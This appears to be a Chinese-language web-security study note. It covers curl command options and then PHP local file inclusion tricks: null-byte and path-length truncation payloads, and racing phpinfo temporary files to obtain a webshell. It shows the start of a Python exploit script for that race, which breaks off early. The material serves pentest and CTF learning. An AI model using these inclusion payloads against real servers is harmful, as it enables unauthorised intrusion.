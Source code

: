 ```
范例：curl -O https://www.example.com/foo/bar.html
上面命令将服务器回应保存成文件，文件名为bar.html。


-s参数将不输出错误和进度信息。
如果想让 curl 不产生任何输出，可以使用curl -s -o /dev/null https://google.com

-S参数指定只输出错误信息

-u参数用来设置服务器认证的用户名和密码。
范例1：curl -u 'bob:12345' https://google.com/login
上面命令设置用户名为bob，密码为12345，然后将其转为 HTTP 标头Authorization: Basic Ym9iOjEyMzQ1。
范例2： curl https://bob:12345@google.com/login
上面命令能够识别 URL 里面的用户名和密码，将其转为上个例子里面的 HTTP 标头。
范例3： curl -u 'bob' https://google.com/login
上面命令只设置了用户名，执行后，curl 会提示用户输入密码。

-v参数输出通信的整个过程，用于调试。

--trace参数也可以用于调试，还会输出原始的二进制数据。

-x参数指定 HTTP 请求的代理。
范例1：curl -x socks5://james:cats@myproxy.com:8080 https://www.example.com
上面命令指定 HTTP 请求通过myproxy.com:8080的 socks5 代理发出。
范例2：curl -x james:cats@myproxy.com:8080 https://www.example.com
如果没有指定代理协议，默认为 HTTP。

-X参数指定 HTTP 请求的方法。
```

## 0x04 远古截断、利用phpinfo包含临时文件

phpinfo中open_basedir能够查看用户能够访问的路径。

`%00`截断(需要 magic\_quotes\_gpc=off，PHP小于5.3.4有效(?))

范例：url/?page=phpinfo.txt%00

路径长度截断：`./`和`.`(php版本小于5.2.8(?)可以成功，linux需要文件名长于4096，windows需要长于256)

范例： url/?page=phpinfo.txt.(n个.)

向服务器上任意php文件以form-data方式提交请求上传数据时，会生成临时文件,通过phpinfo来获取临时文件的路径以及名称,然后临时文件在极短时间被删除的时候,需要竞争时间包含临时文件拿到webshell。

```python
#!/usr/bin/env pyhon
# -*-coding: utf-8 -*-

"""
php 处理脚本执行完后再删除临时文件，间隔时间极短
"""

import sys
import threading
import socket
import logging
from argparse import ArgumentParser

logging.basicConfig(level=logging.INFO)
log = logging.getLogger(__name__)


def setup(host, port):

    tag = "Security Test"
```